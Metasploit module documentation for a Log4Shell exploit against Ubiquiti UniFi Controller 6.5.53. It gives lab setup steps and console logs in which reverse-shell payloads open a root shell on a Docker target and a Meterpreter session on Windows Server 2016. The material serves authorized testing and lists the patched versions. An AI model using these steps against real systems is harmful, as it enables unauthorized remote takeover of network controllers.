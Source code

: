 ## Vulnerable Application

### Description
The Unbiquiti Unifi Controller application is affected by the Log4Shell vulnerability whereby a JNDI string can
be sent to the server that will cause it to connect to the attacker and deserialize a malicious Java object.
This results in OS command execution.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
1. Navigate to the service on HTTPS port 8443 to setup the Unifi controller.
1. On step 2, select the button to "Switch to Advanced Setup"
1. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
1. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
1. Review the configuration, and finalize it.


## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### Unifi Controller on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.55, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.


```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### Unifi Controler on Windows Server 2016

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
